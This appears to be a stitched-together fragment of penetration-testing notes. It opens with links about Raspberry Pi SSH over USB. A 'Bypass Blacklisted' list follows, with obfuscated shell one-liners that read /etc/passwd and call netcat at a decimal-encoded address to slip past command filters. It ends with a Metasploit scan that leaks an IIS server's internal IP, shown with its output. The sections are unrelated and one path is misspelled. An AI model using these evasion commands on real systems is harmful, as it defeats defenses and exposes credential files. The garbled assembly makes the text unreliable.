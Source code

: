 ### References

- <https://askubuntu.com/questions/992388/ubuntu-avahi-daemon-cannot-find-raspberrypi-local>
- <https://raspberrypi.stackexchange.com/questions/57625/trying-to-get-ssh-over-usb-to-work-raspberry-pi-zero>
- <https://wiki.52pi.com/index.php/USB_dongle_for_Raspberry_Pi_Zero/Zero_W_SKU:EP-0097>
- <https://linux.die.net/man/8/avahi-daemon>
- <https://linux.die.net/man/1/avahi-browse>
- <https://techoverflow.net/2018/06/09/how-to-ssh-to-an-ipv6-address/>

## Quick wins

### Bypass Blacklisted

- `/bin/cat /ect/passwd`
- `/b’i’n/c’a’t e’t’c/p’a’s’s’w’o’r’d’`
- `/??'?'/?'a't /???/????'w'?`
- `/bin/nc 127.0.0.1 80`
- `/b'i'n/'n'c 2130706433 80`
- `/?'?'n/'n'? 2130706433 80`
- `/???/n? 2130706433 80`
- `echo =/*/*ss*`

Microsoft Exchange Client Access Server Information Disclosure
There are two metasploit modules for this, however sometimes a `curl` command is all thats needed.

#### iis_internal_ip

```
msfconsole -q \
           -x 'use auxiliary/scanner/http/iis_internal_ip' \
           -x 'set RHOSTS $target' \
           -x 'set RPORT 80' \
           -x 'set SSL false' \
           -x 'run'
```

```
RHOSTS => $target
RPORT => 80
SSL => false
[+] Location Header: http://10.8.9.40/RDWeb/
[+] Result for $target found Internal IP:  10.8.9.40
[+] Location Header: http://10.8.9.40/RDWeb/images
[+] Result for $target found Internal IP:  10.8.9.40
[+] Location Header: http://10.8.9.40/RDWeb/default.htm
[+] Result for $target found Internal IP:  10.8.9.40
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/iis_internal_ip) > 
```

#### owa_iis_internal_ip
